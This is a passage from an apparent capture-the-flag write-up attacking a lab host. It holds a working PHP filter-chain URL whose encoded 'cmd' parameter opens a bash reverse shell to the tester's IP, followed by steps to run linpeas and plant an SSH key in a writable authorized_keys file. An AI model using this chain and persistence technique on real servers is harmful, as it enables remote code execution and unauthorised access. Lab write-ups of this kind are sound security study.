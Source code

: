 ```sh
http://10.10.93.52/secret-script.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%53%34%33%4f%53%34%78%4f%54%4d%76%4e%44%51%31%4e%53%41%77%50%69%59%78%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
```
13. Now we have a revshell and the next step will be to stabilize it
14. I have spawn a python server and transfer `linpeas.sh` to `/tmp` folder on the victim machine, and run it
15. One of the vulnerabilities flagged is regarding `/home/comte/.ssh/authorized_keys` location as being writable by our user. To exploit this we can simply generate a new key pair locally and write the public key on the server. On our machine:
```sh
ssh-keygen -t rsa #generate new key pair

chmod 600 id_rsa #set correct rights on private key\

cat id_rsa.pub # get the content of the public key and copy it

```
16. O the victim machine:
```sh
echo 'content copied of the id_rsa.pub' > /home/comte/.ssh/authorized_keys
```
#### Data exfiltration
1. With the keys in place we can SSH as `comte` from our local machine
```
ssh comte@10.10.93.52 -i id_rsa
```